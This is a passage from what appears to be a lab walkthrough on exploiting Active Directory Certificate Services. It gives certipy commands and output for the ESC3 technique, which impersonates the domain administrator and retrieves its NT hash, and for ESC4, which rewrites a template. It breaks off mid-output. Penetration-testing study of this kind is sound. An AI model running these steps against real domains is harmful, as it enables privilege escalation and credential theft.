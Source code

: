 Query certificate with the Certificate Request Agent cert we got before:

`certipy req -u khal.drogo@essos.local -p 'horse' -target 10.4.10.23 -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate object SID is 'S-1-5-21-1626587276-1544673639-3547638884-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

Authenticate:

`certipy auth -pfx administrator.pfx -dc-ip 10.4.10.12`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

**ESC3** is very similar to the ESC2.

```text
ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.
```

## 6.4 ESC4 Exploitation


```text
ESC4 is when a user has write privileges on a certificate template. This can be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1. 

By default, Certipy will overwrite it to ESC1.
```

Let's modify the ESC4 template in order to be vulnerable to ESC1 technique, by using the genericWrite privilege.

`certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -debug`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'ESSOS.LOCAL' at '10.4.10.254'
[+] Resolved 'ESSOS.LOCAL' from cache: 10.4.10.12
[+] Authenticating to LDAP server
[+] Bound to ldaps://10.4.10.12:636 - ssl
[+] Default path: DC=essos,DC=local
[+] Configuration path: CN=Configuration,DC=essos,DC=local
[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[+] MODIFY_DELETE:
[+]     pKIExtendedKeyUsage: []
[+]     msPKI-Certificate-Application-Policy: []
[+]     msPKI-RA-Application-Policies: []
[+] MODIFY_REPLACE:
```